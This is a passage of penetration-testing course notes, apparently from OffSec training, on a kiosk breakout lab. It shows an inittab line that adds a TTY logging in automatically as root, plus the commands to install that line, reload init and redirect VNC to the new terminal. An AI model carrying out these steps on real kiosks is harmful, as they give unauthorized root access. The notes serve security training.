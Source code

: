 Figure 43: Unmodified /etc/inittab file in Scratchpad

We'll add a TTY by adding the following line to the "Standard console login" section under the two commented lines:

```
c3::respawn:/sbin/agetty --noclear --autologin root 38400 tty3 linux
```

> Listing 28 - Entry for a new TTY in /etc/inittab

This instructs the TTY to automatically log in as the root user[5](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5328-5) (Figure 44).

![[OffSec/OSEP/Course/z. images/b9b6d3900d355f51db9739c1e49a0d5c_MD5.jpg]]

Figure 44: Adding a console to inittab

We can then save the file and copy it back to /etc/inittab:

```
cp /home/guest/inittab.txt /etc/inittab
```

> Listing 29 - Copying our edited inittab over the old one

and replace the permissions as before:

```
chmod 600 /etc/inittab
```

> Listing 30 - Restoring inittab permissions

The following command will dynamically reload the settings without rebooting the system:[6](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5328-6)

```
/sbin/init q
```

> Listing 31 - Command to reload inittab file dynamically

At this point, if we were physically located at the kiosk, we could use xdotool key Ctrl+Alt+F3 to switch to a TTY terminal session. However, because we are accessing the kiosk through VNC, we must perform a few extra steps. Using Scratchpad, we can create a script containing the code in Listing 32.

```
#!/bin/bash
killall x11vnc 
x11vnc -rawfb vt3
```

> Listing 32 - getmeatty.sh script

This will kill the existing VNC server instance and start a new one connected directly to the virtual terminal.
